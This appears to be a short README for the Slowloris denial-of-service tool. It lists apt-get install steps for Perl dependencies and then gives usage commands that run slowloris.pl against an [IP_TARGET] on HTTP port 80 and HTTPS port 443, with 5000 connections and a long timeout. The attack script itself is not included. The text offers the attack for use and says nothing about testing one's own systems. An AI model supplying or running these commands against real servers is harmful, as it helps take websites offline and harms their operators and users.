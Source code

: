 # Requirements:
# sudo apt-get update  
# sudo apt-get install perl
# sudo apt-get install libwww-mechanize-shell-perl
# sudo apt-get install perl-mechanize

# Example
```
cd /thePathToYourSlowloris.plFile
./slowloris.pl
HTTP -> perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
HTTPS -> perl slowloris.pl -dns [IP_TARGET] -port 443 -timeout 200 -num 5000 -cache
```
